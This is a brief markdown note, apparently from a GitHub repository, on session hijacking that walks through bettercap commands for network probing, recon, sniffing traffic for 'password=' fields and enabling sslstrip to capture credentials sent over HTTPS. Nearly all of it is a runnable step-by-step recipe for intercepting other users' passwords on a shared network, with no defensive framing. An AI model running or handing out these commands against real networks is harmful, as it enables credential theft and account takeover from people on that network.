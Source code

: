# Session Hijacking

When we try to use ZAP and BURP within the network that acts as a proxy in between the Web Application and Web Server.

It's not MITM :)) 

Although we can use ettercap, bettercap etc to perform ARP Poisoning and MITIM/Sniffing attacks over the network we are connected to. 

1. Run Bettercap via Ethernet Interface of your choice.
```
bettercap -iface eth0
```

2. net.probe on --> enabling network probinf
3. net.recon on --> enabling recon mode on over the network
4. net.sniff on --> enabling network sniffing
5. set net.sniff.regexp '.\*password=.\*' --> The password field will be changed as per the requirements, we need to know how the password are being floated over the network.
6. set http.proxy.sslstrip true --> to hunt down password floating over HTTPS rather than HTTP